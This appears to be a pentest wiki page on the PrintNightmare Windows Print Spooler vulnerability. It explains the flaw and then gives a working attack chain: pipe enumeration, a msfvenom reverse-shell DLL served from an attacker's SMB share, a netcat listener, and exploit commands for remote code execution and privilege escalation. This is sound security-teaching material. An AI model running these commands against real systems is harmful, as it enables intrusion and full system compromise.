


# PrintNightmare

## Theory

### The print spooler

The Print Spooler is a Microsoft built-in service that manages printing jobs. It is enabled by default and runs within the `SYSTEM` context.

3 RPC protocols are registered by the spooler:

* **MS-RPRN:** Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server synchronously.
* **MS-PAR:** Microsoft’s Print System Asynchronous Remote Protocol. It has the same functionalities as MS-RPRN, but works asynchronously.
* **MS-PAN:** Microsoft’s Print System Asynchronous Notification Protocol. It is used to receive print status notifications from a print server and to send server-requested responses to those notifications back to the server.

### PrintNightmare

"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context.

In a detailed blogpost ([here](https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/)), Cyberwatch describes that the vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`:

1. The attacker stores the driver DLL file on a SMB share reachable from the server.
2. The client creates a [`DRIVER_INFO_2`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/39bbfc30-8768-4cd4-9930-434857e2c2a2) object containing the path to the attacker's DLL and passes it into the DRIVER\_CONTAINER object.
3. The client calls [`RpcAddPrinterDriverEx`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` \*\*\*\* in order to bypass the `SeLoadDriverPrivilege` \*\*\*\* privilege verification by the server.
4. The attacker's DLL is executed on the server within `SYSTEM` context.

### Constraints

As [@StanHacked](https://twitter.com/StanHacked/) stated on Twitter, there are some constraints depending on the protocol used for the attack.

#### MS-RPRN conditional tree

<div>

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

</div>

#### MS-PAR conditional tree

<figure><figcaption></figcaption></figure>

## Practice



From Unix-like systems, the attack can be conducted as follows

1. Check if the target's RPC pipes are available: Impacket's [rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)
2. Generate a DLL payload: [msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)
3. Host an SMB server from which the DLL can be fetched: Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
4. Exploit PrintNightmare: CVE-2021-1675.py ([MS-RPRN abuse](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare), [MS-PAR abuse](https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py))
5. Profit from the DLL being executed by the target


```bash
# Check open pipes
rpcdump.py @192.168.1.16 | egrep 'MS-RPRN|MS-PAR'

# Create a DLL payload (reverse shell in this example)
msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -o /workspace/smb/remote.dll

# Host a SMB share 
smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/

# Start the listener (for the reverse shell)
nc -lvnp $LOCAL_PORT

# Run the exploit
CVE-2021-1675.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP '\\$LOCAL_IP\$SHARE\remote.dll'
```




From Windows systems, the attack can be conducted in an LPE or RCE context with the following PoC: [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare).


_At the time of writing, October 7th 2022, the Windows abuse technique has not been tested by THR's authors._



```bash
#LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP' $DOMAIN $USER $PASSWORD
```




## References




